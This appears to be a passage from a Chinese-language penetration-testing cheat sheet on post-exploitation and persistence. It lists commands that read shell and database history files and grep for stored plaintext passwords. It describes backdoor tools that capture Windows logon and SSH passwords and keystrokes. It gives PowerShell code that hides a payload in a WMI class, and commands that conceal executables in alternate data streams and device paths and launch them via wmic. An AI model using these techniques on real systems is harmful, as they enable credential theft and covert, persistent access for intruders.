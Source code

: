 #### 不安全的文件/文件夹权限配置 
```
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```
#### 找存储的明文用户名，密码 
```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Joomla
```

## 权限维持 

### 系统后门 
#### Windows 
##### 1、密码记录工具 
WinlogonHack 
WinlogonHack 是一款用来劫取远程3389登录密码的工具，在 WinlogonHack 之前有 一个 Gina 木马主要用来截取 Windows 2000下的密码，WinlogonHack 主要用于截 取 Windows XP 以及 Windows 2003 Server。
键盘记录器 
安装键盘记录的目地不光是记录本机密码，是记录管理员一切的密码，比如说信箱，WEB 网页密码等等，这样也可以得到管理员的很多信息。
NTPass 
获取管理员口令,一般用 gina 方式来,但有些机器上安装了 pcanywhere 等软件，会导致远程登录的时候出现故障，本软件可实现无障碍截取口令。
Linux 下 openssh 后门 
重新编译运行的sshd服务，用于记录用户的登陆密码。
##### 2、常用的存储Payload位置 
**WMI** :
存储：
```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('Command' , $Payload)
$StaticClass.Put() 
```
读取:
```
$Payload=([WmiClass] 'Win32_Command').Properties['Command'].Value
```

**包含数字签名的PE文件**
利用文件hash的算法缺陷，向PE文件中隐藏Payload，同时不影响该PE文件的数字签名 
**特殊ADS** 
…
```
type putty.exe > ...:putty.exe
wmic process call create c:\test\ads\...:putty.exe
```
特殊COM文件
```
type putty.exe > \\.\C:\test\ads\COM1:putty.exe
wmic process call create \\.\C:\test\ads\COM1:putty.exe
```
磁盘根目录
```
type putty.exe >C:\:putty.exe 
wmic process call create C:\:putty.exe
```
##### 3、Run/RunOnce Keys  